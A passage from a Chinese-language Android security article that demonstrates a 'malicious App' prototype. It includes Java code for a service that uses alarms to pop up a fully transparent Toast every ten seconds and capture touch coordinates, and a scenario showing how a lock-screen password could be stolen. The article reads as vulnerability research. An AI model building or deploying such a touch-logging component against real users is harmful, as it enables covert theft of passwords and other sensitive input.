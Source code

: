 作为恶意 App 我们还需要设定一个弹出触摸信息记录 Toast 的时机。简单起见，我们启动一个service来周期性弹出全透明 Toast 以窃取用户触摸信息。

```
public final class LoopService extends Service {
    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }
    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        ClickToast.showToast(this, Toast.LENGTH_LONG);
        new Thread(new Runnable() {
            @Override
            public void run() {
                Log.d("LittleLisk", "toast now: " + new Date().
                        toString());
            }
        }).start();
        AlarmManager manager = (AlarmManager) getSystemService(ALARM_SERVICE);
        int anHour = 10 * 1000; // 10秒
        long triggerAtTime = SystemClock.elapsedRealtime() + anHour;
        Intent i = new Intent(this, AlarmReceiver.class);
        PendingIntent pi = PendingIntent.getBroadcast(this, 0, i, 0);
        manager.set(AlarmManager.ELAPSED_REALTIME_WAKEUP, triggerAtTime, pi);
        return super.onStartCommand(intent, flags, startId);
    }
}
public class AlarmReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        Intent i = new Intent(context, LoopService.class);
        context.startService(i);
    }
}
```

以上便是一个简易的恶意 App 原型，下面我们再看下可能的攻击场景。



## 04.攻击场景

假设此刻我作为一个用户，正准备设置我的锁屏密码：

[![](./img/201052/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/576_1024_/t0111d1158f855c618a.png)

此时透明Toast弹出，并记录了我的触屏坐标，我的锁屏密码便可能被窃取

[![](./img/201052/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_260_/t01b444b935c33787fc.png)

同样可以举一反三获取用户其他敏感信息，不失为一种较为严重的安全漏洞。



